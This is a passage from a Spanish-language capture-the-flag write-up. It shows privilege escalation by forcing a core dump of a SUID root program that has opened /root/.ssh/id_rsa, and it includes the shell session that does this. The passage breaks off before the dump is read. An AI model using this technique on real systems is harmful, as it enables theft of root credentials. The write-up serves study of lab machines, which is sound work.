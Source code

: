 El programa pide un nombre de un archivo o directorio del cual genera unas estadisticas, despues te da la opción de guardar los resultados.

Recordemos que es un binario SUID con propietario root, asi que el programa podria leer cualquier archivo del sistema.

Bien, la función **main** del código me encuentro con algo interesante:

![image](https://user-images.githubusercontent.com/67548295/160955807-699aca4d-a5dc-44ec-9ced-eb91f5cd7c20.png)

Busco información sobre esto del `coredump` y encuentro esto:

![image](https://user-images.githubusercontent.com/67548295/160956012-7949c409-1b1a-417b-8dd3-b6af4f316f72.png)

Básicamente es un sistema de debugging que guarda los datos del programa si este _crashea_

Esto podria estar interesante ya que si especificamos un archivo privilegiado al binario y luego provocamos un **coredump**, el contenido del archivo privilegiado podría volcarse también.

Lo primero que hago es buscar como provocar un **coredump**, y veo que se puede hacer fácilmente con el comando `kill -ABRT <pid>`:

![image](https://user-images.githubusercontent.com/67548295/160956694-6a4db793-9ecb-48ec-ae5d-fef4aedd77f3.png)

Y lo hacemos especificando la clave id_rsa de SSH del usuario root, suponiendo que esta existe:

```bash
dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count

dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   1814 pts/1    00:00:00 sh
   1815 pts/1    00:00:00 bash
   1880 pts/1    00:00:00 count
   1884 pts/1    00:00:00 ps
   
dasith@secret:/opt$ kill -ABRT 1880
dasith@secret:/opt$ fg
./count
Aborted (core dumped)
```
Perfecto, ahora tendremos que ver donde se localiza este volcado de memoria. Lo encuentro fácil en Internet:

![image](https://user-images.githubusercontent.com/67548295/160957203-3a727aa5-2ac3-4129-9daa-ef249422a955.png)

Voy a esa ruta y veo esto:
